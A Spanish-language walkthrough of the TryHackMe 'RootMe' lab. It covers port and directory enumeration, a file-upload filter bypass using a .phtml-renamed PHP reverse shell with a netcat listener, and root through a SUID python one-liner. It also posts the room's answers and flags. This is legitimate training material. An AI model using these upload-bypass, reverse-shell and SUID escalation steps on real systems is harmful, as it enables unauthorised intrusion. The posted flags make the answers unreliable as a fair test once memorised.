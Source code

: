 # RootMe - TryHackMe

- Objetivo: Obtener acceso al sistema y escalar privilegios hasta root.
- Fecha: 12/06/2025
- Autor del reto: Liiaam251
- Enlace a la máquina: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)
- IP de la máquina: 10.10.135.37

## Enumeración de puertos con Nmap

### Comando utilizado

```bash
nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.135.37
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-12 05:43 EDT
Nmap scan report for 10.10.135.37
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.30 seconds
````
## Task 1 Deploy the machine
Deploy the machine
```bash
No answer needed
```
## Task 2 Reconnaissance

1: Scan the machine, how many ports are open?

```bash
2
```
2: What version of Apache is running?
```bash
2.4.29
```
3: What service is running on port 22?
```bash
ssh
````
## Enumeración subdominios gobuster

### Comando utilizado

```bash
$ gobuster dir -u http://10.10.135.37 -w /home/kali/Downloads/subdomains-top1mil-20000.txt -x html,php,txt -t 50

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.135.37
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/kali/Downloads/subdomains-top1mil-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/panel                (Status: 301) [Size: 312] [--> http://10.10.135.37/panel/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.135.37/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.135.37/js/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.135.37/uploads/]
/index.php            (Status: 200) [Size: 616]
Progress: 80000 / 80004 (100.00%)
===============================================================
Finished
```
4: Find directories on the web server using the GoBuster tool.
```bash
No answer needed
```
5: What is the hidden directory?
```bash
/panel/
```

##Getting a shell

Nos redirigimos en nuestro navegador a http://<ip>/panel/ donde podemos ver que tenemos un panel con el que podemos subir un archivo, vamos a intentar subir una shell en php,
yo he utilizado esta DANDOLE PERMISOS DE EJECUCIÓN al instalarla: 

-  Enlace reverse shell: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
Recordar que hay que cambiar el puerto opcionalmente y la IP(tun0) obligatoriamentey despues ponernos en escucha con:

```bash
nc -lvnp <puerto_puesto>
```
Al intentar subir la reverse shell nos da error, php no admitido 

```bash
Select a file to upload:
PHP não é permitido!
````
Entonces le vamos a cambiar la extensión a .phtml
La extensión .phtml hace referencia a archivos que contienen código PHP embebido dentro de HTML. Es funcionalmente igual a .php, pero su uso puede tener ciertos contextos específicos.

Al cambiarle la extencion a .php.phtml
```bash
Select a file to upload:
O arquivo foi upado com sucesso!
```
Ahora solo tenemos que ejecutar la shell desde /uploads/ que lo hemos descubierto antes con gobuster y es donde se guardaban los archivos, al darle clic y estando por netcat en escucha estaríamos dentro

```bash
Index of /uploads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	php-reverse-shell.php.phtml	2025-06-12 10:21 	5.4K	 
Apache/2.4.29 (Ubuntu) Server at 10.10.68.176 Port 80
```
Nos vamos al netcat y vemos que ya tenemos acceso
```bash
nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.9.3.53] from (UNKNOWN) [10.10.68.176] 36442
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:25:14 up 4 min,  0 users,  load average: 0.03, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
````
Para que la consola se vea mejor he usado este comando:
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
## Task 3 - Getting a shell
1 user.txt
buscamos la flag con el comando 
````bash
find / -type f -name "user.txt" 2>/dev/null
````
nos movemos dentro y nos da la primera flag:

````bash
THM{y0u_g0t_a_sh3ll}
````
## Escalado de Privilgios - SUID

Buscamos posibles SUID con

````bash
www-data@rootme:/home$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
...
````
Vemos que está python, vamos a buscar en GTFObins python a ver que sale en apartado de SUID:

recordar poner ruta del suid en vez de ./python o moverse a dicho directorio sino no irá

```bin
www-data@rootme:/home$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
````
## Task 3 - Privilege escalation

1. Search for files with SUID permission, which file is weird?
````bin
/usr/bin/python
````
2. Find a form to escalate your privileges.
````bin
No answer needed
````
2. root.txt
   
Nos movemos a al carpeta de root y hacemos ls para ver archivos y ahí está la flag
````bin
THM{pr1v1l3g3_3sc4l4t10n}
````






















